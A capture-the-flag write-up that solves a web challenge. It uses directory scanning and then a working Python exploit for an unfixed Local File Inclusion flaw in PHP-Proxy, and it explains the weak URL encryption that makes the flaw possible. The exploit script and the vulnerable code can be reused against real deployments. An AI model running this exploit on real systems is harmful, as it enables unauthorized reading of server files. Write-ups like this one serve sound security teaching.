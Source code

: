 ```yaml
---
description: N-day Local File Inclusion (LFI) vulnerability in PHP-Proxy.
---
```


# Space Station

## Description

Where do you want to go?

`http://20.198.209.142:55047`

_The flag is in the flag format: STC{...}_

**Author: zeyu2001**

## Solution

Going to the given site only shows `Hello Mars!`.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 11.03.46 AM.png>)



Performing a simple directory busting scan, we find some interesting information.

```
└─# gobuster dir -u http://20.198.209.142:55047/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 10
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://20.198.209.142:55047/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php
[+] Timeout:        10s
===============================================================
2021/07/23 23:06:33 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/app (Status: 301)
/flag.txt (Status: 403)
/index.php (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/07/23 23:06:52 Finished
===============================================================
```

We find a `/flag.txt`, but we cannot view it. Let's keep in mind that the flag is in web root for now. 

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 11.09.17 AM.png>)

Going to `/app` gives us a web proxy application.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 11.11.57 AM.png>)

We can enter any URL, and the corresponding page will be rendered on our browser. At the bottom of the page, we find that this application is "Powered by PHP-Proxy" and a [link](https://www.php-proxy.com) is given.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 11.14.36 AM.png>)

This link leads us to the GitHub repository, where a search for Issues containing the word "vulnerability" yields several results.

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 11.15.00 AM.png>)

A currently open and unfixed issue is that PHP-Proxy (all versions) suffers from a Local File Inclusion (LFI) vulnerability: [https://github.com/Athlon1600/php-proxy-app/issues/135](https://github.com/Athlon1600/php-proxy-app/issues/135). We can also find more details here: [https://github.com/0xUhaw/CVE-Bins/tree/master/PHP-Proxy](https://github.com/0xUhaw/CVE-Bins/tree/master/PHP-Proxy)

### The Exploit

The exploit script is already provided in the GitHub issue above.

```python
import requests
import base64

def encrypt(plaintext, key):
    key_length = len(key)
    key_as_int = [ord(i) for i in key]
    plaintext_int = [ord(i) for i in plaintext]
    ciphertext = []
    for i in range(len(plaintext_int)):
        value = (plaintext_int[i] + key_as_int[i % key_length]) % 256
        ciphertext.append(value)
    return bytes(ciphertext)

def calculate_key(ciphertext, plaintext):
    key = []
    for i in range(0, len(ciphertext)):
        if ciphertext[i] - ord(plaintext[i]) < 0:
            key.append(chr(ciphertext[i] - ord(plaintext[i]) + 256))
        else:
            key.append(chr(ciphertext[i] - ord(plaintext[i])))

    return "".join(key[:32])

def exploit(url, file_to_read):
    r = requests.post(url + '/index.php', data={'url': 'http://aaaaaaaaaaaaaaaaaaaaaaaaaaa.com'}, allow_redirects=False)

    b64_url_ciphertext = r.headers['location'].split('?q=')[1]
    b64_url_ciphertext = b64_url_ciphertext + "=" * (len(b64_url_ciphertext) % 4)
    url_ciphertext = base64.b64decode(b64_url_ciphertext)
    url_plaintext = 'http://aaaaaaaaaaaaaaaaaaaaaaaaaaa.com'

    key = calculate_key(url_ciphertext, url_plaintext)
    return requests.get(url + '/index.php', params={'q': base64.b64encode(encrypt(file_to_read, key))}).text

print(exploit('http://20.198.209.142:55047/app', 'file:///var/www/html/flag.txt'))
```

Running the script gives us the flag, `STC{l0cal_f1l3_1nclus10n_328d47c2ac5b2389ddc47e5500d30e04}`

![](<../../.gitbook/assets/Screenshot 2021-07-24 at 11.24.34 AM.png>)

To understand why the exploit works, read on below!

### The Vulnerability

When visiting a page through PHP-Proxy, the `q=` parameter is used. This is the URL we are visiting, encrypted using an app key in the package configuration.

The encryption key is generated as follows:

```php
Config::set('encryption_key', md5(Config::get('app_key').$_SERVER['REMOTE_ADDR']));
```

The URL is encrypted as follows:

```php
$url = str_rot_pass($url, $key);
```

The following encryption function is not secure enough. It simply takes every character of the key and adds it to the original plaintext. Since we know both the plaintext (the original URL) and the ciphertext (the `q=` parameter), we can easily reverse-engineer the key.

```php
// rotate each string character based on corresponding ascii values from some key
function str_rot_pass($str, $key, $decrypt = false){

    // if key happens to be shorter than the data
    $key_len = strlen($key);

    $result = str_repeat(' ', strlen($str));

    for($i=0; $i<strlen($str); $i++){

        if($decrypt){
            $ascii = ord($str[$i]) - ord($key[$i % $key_len]);
        } else {
            $ascii = ord($str[$i]) + ord($key[$i % $key_len]);
        }

        $result[$i] = chr($ascii);
    }

    return $result;
}
```

Then, after getting the key, it is simply a matter of encrypting `file:///var/www/html/flag.txt` since the `file://` protocol is not explicitly banned.
